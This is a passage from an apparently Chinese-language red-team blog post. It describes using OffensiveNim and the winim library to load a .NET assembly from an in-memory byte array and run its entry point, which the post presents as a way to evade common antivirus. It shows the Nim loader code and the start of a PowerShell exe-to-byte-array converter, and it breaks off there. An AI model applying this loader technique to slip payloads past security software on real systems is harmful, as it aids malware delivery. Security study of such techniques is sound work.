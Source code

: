 #  Nim套娃加载.NET程序集

原创 RedTeamWing [ RedTeaming ](javascript:void\(0\);)

**RedTeaming** ![]()

微信号 RedTeamer

功能介绍 Know it,Then hacking it!

____

__

收录于话题

  

## 简介

使用OffensiveNim绕过常见杀软。

## Start the game

主要用到的库是WINIM

    
    
    import winim/clr  
    import sugar  
    import strformat  
      
    # Just pops a message box... or does it? ;)  
    var buf: array[4608, byte] = [byte 0x4d,0x5a,0x90,0x0]  
      
    echo "[*] Installed .NET versions"  
    for v in clrVersions():  
        echo fmt"    \--- {v}"  
    echo "\n"  
      
    echo ""  
      
    var assembly = load(buf)  
    dump assembly  
      
      
    var arr = toCLRVariant([""], VT_BSTR) # Passing no arguments  
    assembly.EntryPoint.Invoke(nil, toCLRVariant([arr]))  
      
    arr = toCLRVariant(["From Nim & .NET!"], VT_BSTR) # Actually passing some args  
    assembly.EntryPoint.Invoke(nil, toCLRVariant([arr]))  
    

作者提供了一个ps脚本将exe转为符合nim的bytes数组。

    
    
    function CSharpToNimByteArray  
    {  
      